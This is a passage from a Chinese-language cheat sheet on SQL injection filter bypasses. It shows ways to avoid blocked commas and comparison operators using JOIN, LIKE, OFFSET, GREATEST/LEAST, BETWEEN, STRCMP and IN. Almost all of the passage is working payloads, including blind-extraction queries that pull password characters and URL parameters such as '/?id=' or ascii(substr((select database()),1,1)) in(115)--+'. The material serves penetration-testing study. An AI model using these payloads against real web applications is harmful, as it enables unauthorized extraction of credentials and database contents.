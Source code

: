 ```python
union select * from (select 1)a join (select 2)b
SELECT username ,PASSWORD FROM  USER  UNION SELECT * FROM (SELECT (SELECT USER()))a JOIN (SELECT 2)b
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339483-61f8f874-4d77-408b-89b5-62366af9d039.png#averageHue=%23fafafa&id=gSusD&originHeight=365&originWidth=1055&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用like

```python
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过

```python
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```

### 比较符号（<>）绕过

测试表

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339573-9c722f25-9b89-412c-9dc3-8132de3abd4e.png#averageHue=%23c3ae8f&id=YVREB&originHeight=196&originWidth=762&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用greatest()、least（）：（前者返回最大值，后者返回最小值）

```python
SELECT username ,PASSWORD FROM  USER  WHERE  username="admi"  || GREATEST((ASCII(SUBSTR(PASSWORD,1,1))),102)=102
SELECT username ,PASSWORD FROM  USER  WHERE  username="admi"  || LEAST((ASCII(SUBSTR(PASSWORD,1,1))),103)=103
```

使用between and

```python
SELECT username ,PASSWORD FROM  USER  WHERE  username="admi"  || ASCII(SUBSTR(PASSWORD,1,1)) BETWEEN 101 AND 101;
```

STRCMP比较

用于比较两个字符串并根据比较结果返回整数。 基本形式为strcmp(str1,str2)，若str1=str2，则返回零；若str1<str2，则返回负数；若str1>str2，则返回正数

```python
SELECT   STRCMP(LEFT('password',1), 0x70) = 0
```

p的16进制是0x70

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339663-32d348be-cf6b-4f48-9863-eabc25c4bc7a.png#averageHue=%23efd3b9&id=Pd6g1&originHeight=354&originWidth=581&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用in绕过

```python
/?id=' or ascii(substr((select database()),1,1)) in(114)--+    // 错误
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```

